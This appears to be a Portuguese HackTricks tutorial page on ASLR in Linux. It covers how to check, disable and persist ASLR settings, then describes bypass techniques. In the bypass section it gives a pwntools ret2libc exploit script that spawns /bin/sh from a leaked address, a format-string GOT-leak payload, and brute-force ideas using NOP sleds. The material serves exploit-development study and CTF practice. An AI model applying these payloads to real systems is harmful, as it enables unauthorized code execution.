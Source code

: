 # ASLR

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

**Randomização do Layout do Espaço de Endereços (ASLR)** é uma técnica de segurança usada em sistemas operacionais para **randomizar os endereços de memória** usados por processos do sistema e de aplicativos. Ao fazer isso, torna significativamente mais difícil para um atacante prever a localização de processos e dados específicos, como a pilha, heap e bibliotecas, mitigando assim certos tipos de exploits, especialmente estouros de buffer.

### **Verificando o Status do ASLR**

Para **verificar** o status do ASLR em um sistema Linux, você pode ler o valor do arquivo `/proc/sys/kernel/randomize_va_space`. O valor armazenado neste arquivo determina o tipo de ASLR aplicado:

* **0**: Sem randomização. Tudo é estático.
* **1**: Randomização conservadora. Bibliotecas compartilhadas, pilha, mmap(), página VDSO são randomizadas.
* **2**: Randomização completa. Além dos elementos randomizados pela randomização conservadora, a memória gerenciada por meio de `brk()` é randomizada.

Você pode verificar o status do ASLR com o seguinte comando:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Desativando o ASLR**

Para **desativar** o ASLR, você define o valor de `/proc/sys/kernel/randomize_va_space` como **0**. Desativar o ASLR geralmente não é recomendado fora de cenários de teste ou depuração. Veja como você pode desativá-lo:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Você também pode desativar o ASLR para uma execução com:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Ativar ASLR**

Para **ativar** o ASLR, você pode escrever um valor de **2** no arquivo `/proc/sys/kernel/randomize_va_space`. Isso geralmente requer privilégios de root. A ativação da randomização completa pode ser feita com o seguinte comando:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistência através de reinicializações**

As alterações feitas com os comandos `echo` são temporárias e serão redefinidas após a reinicialização. Para tornar a alteração persistente, você precisa editar o arquivo `/etc/sysctl.conf` e adicionar ou modificar a seguinte linha:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Depois de editar `/etc/sysctl.conf`, aplique as alterações com:
```bash
sudo sysctl -p
```
Isso garantirá que suas configurações de ASLR permaneçam após reinicializações.

## **Bypasses**

### Forçando por tentativa e erro em 32 bits

O PaX divide o espaço de endereço do processo em **3 grupos**:

* **Código e dados** (inicializados e não inicializados): `.text`, `.data` e `.bss` —> **16 bits** de entropia na variável `delta_exec`. Esta variável é inicializada aleatoriamente a cada processo e adicionada aos endereços iniciais.
* **Memória** alocada por `mmap()` e **bibliotecas compartilhadas** —> **16 bits**, chamado `delta_mmap`.
* **A pilha** —> **24 bits**, referido como `delta_stack`. No entanto, ele efetivamente usa **11 bits** (do 10º ao 20º byte inclusive), alinhados a **16 bytes** —> Isso resulta em **524.288 possíveis endereços reais de pilha**.

Os dados anteriores são para sistemas de 32 bits e a entropia final reduzida torna possível contornar o ASLR tentando a execução repetidamente até que o exploit seja concluído com sucesso.

#### Ideias de força bruta:

* Se você tiver um estouro grande o suficiente para hospedar um **grande trenó NOP antes do shellcode**, você poderia apenas forçar os endereços na pilha até que o fluxo **salte sobre alguma parte do trenó NOP**.
* Outra opção para isso, caso o estouro não seja tão grande e o exploit possa ser executado localmente, é possível **adicionar o trenó NOP e o shellcode em uma variável de ambiente**.
* Se o exploit for local, você pode tentar forçar o endereço base do libc (útil para sistemas de 32 bits):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ao atacar um servidor remoto, você pode tentar **forçar o endereço da função `usleep` da `libc`**, passando como argumento 10 (por exemplo). Se em algum momento o **servidor demorar 10s extras para responder**, você encontrou o endereço dessa função.

{% hint style="success" %}
Em sistemas de 64 bits, a entropia é muito maior e isso não é possível.
{% endhint %}

### Tendo um vazamento

* **O desafio é fornecer um vazamento**

Se você receber um vazamento (desafios fáceis de CTF), você pode calcular offsets a partir dele (supondo, por exemplo, que você saiba a versão exata da `libc` que está sendo usada no sistema que está explorando). Este exploit de exemplo é extraído do [**exemplo daqui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (verifique essa página para mais detalhes):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Aproveitando um estouro de buffer, seria possível explorar um **ret2plt** para exfiltrar um endereço de uma função da libc. Verifique:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Leitura Arbitrária de Strings de Formato**

Assim como no ret2plt, se você tiver uma leitura arbitrária via uma vulnerabilidade de strings de formato, é possível exfiltrar o endereço de uma **função libc** a partir do GOT. O seguinte [**exemplo está aqui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Pode encontrar mais informações sobre a leitura arbitrária de strings de formato em:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret

Tente contornar o ASLR abusando de endereços dentro da pilha:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
